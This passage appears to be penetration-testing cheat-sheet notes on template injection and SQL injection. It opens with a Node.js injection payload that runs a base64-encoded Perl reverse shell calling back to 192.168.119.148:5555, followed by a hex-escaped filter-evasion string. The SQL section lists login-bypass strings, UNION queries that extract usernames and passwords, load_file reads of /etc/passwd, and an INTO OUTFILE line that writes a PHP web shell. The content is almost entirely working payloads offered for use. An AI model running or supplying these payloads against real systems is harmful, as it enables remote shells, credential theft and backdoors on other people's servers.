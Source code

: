 			#{spawn_sync = this.process.binding('spawn_sync')};#{ normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}};#{spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}};#{payload='dXNlIFNvY2tldDskaT0iMTkyLjE2OC4xMTkuMTQ4IjskcD01NTU1O3NvY2tldChTLFBGX0lORVQsU09DS19TVFJFQU0sZ2V0cHJvdG9ieW5hbWUoInRjcCIpKTtpZihjb25uZWN0KFMsc29ja2FkZHJfaW4oJHAsaW5ldF9hdG9uKCRpKSkpKXtvcGVuKFNURElOLCI+JlMiKTtvcGVuKFNURE9VVCwiPiZTIik7b3BlbihTVERFUlIsIj4mUyIpO2V4ZWMoIi9iaW4vc2ggLWkiKTt9Ow=='};#{resp=spawnSync('perl',['-e',(new Buffer(payload, 'base64')).toString('ascii')])}
		Another Filter Evasion:  localLoad("\x63\x68\x69\x6c\x64\x5f\x70\x72\x6f\x63\x65\x73\x73")


## SQL Injection (SQLI):  

	If a database is queried without proper input sanitization
	Checks:
		Input fields:  see if ' or " cause errors
        	URL parameters:  might need to URL encode
			?id=1' produces error?
			?cod=1+and+2=2  displays correctly?
		Crawl:  sqlmap -u http://192.168.1.101 --dbms=mysql --crawl=3
	Authentication bypass:
		username:  admin'# ; password:   abc' OR 1=1#
		' or '1'='1
        	tom' or 1=1;#
		admin' or 1=1-- -
		abc' OR 1=1--
		Others:  https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/ or https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html
        	Fix "multiple row" error:   tom' or 1=1 LIMIT 1;#
	Example SQL Queries & Syntax:
		select * from accounts where username='$user' and password='$pass'
		Comment symbol: # (MySQL) or -- (standard SQL)	
	Manual Exploitation Process:  figure out structure, then extract data
		URL Parameter:
			1. Determine number of columns:
			    ?id=1 order by 1;    -> increment until error
			2. See which columns #'s are being displayed:
			    ex. if 4 columns:   ?id=1 union all select 1, 2, 3
			3. Extract data:
				?id=1 union all select 1, 2, @@version  (or version())
				union all select 1, 2, user()
				union all select 1, 2, database()
				UNION SELECT 1,concat(table_name,char(58),column_name) from information_schema.columns #
				union all select 1, 2, table_name from information_schema.tables
				    union all select 1, 2, column_name from information_schema.columns where table_name='users'
				    union all select 1, username, password from users
					or:  union select 1,2,concat(name,0x3a,password) FROM users
				Read File:  union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
					UNION SELECT 1, load_file(/etc/passwd) #
					union select null,load_file('/etc/passwd'),null,null,null
				Make Backdoor:  
					Win:  union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/cmd.php'